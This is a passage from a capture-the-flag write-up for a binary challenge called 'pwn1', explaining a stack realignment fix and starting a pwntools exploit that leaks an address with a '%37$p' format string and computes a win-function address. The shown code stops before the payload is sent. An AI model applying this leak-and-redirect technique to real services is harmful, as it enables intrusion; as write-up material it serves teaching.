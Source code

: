 ![Overflow offset](pwn1_1.png)

Running this within the supplied `docker` environment crashes though, because
an unaligned `movaps xmm` instruction is executed. In order to fix it we just
have to realign the stack by returning to a `ret` instruction first.

## 4. Final exploit

With all the information mentioned above we can finally develop our exploit:

```python
#!/usr/bin/env python3
from pwn import *

LEAK_BASE_OFFSET = 0x9e9

elf = ELF('./pwn1/pwn1', checksec=False)

# target = process('./pwn1/pwn1')
target = remote('hax1.allesctf.net', 9100)

target.recvline_contains('name:')
target.sendline('%37$p')
leak = target.recvline_contains('spell:').split(b' ')
base = int(leak[0][2:], 16) - LEAK_BASE_OFFSET
win = base + elf.symbols['WINgardium_leviosa']
```
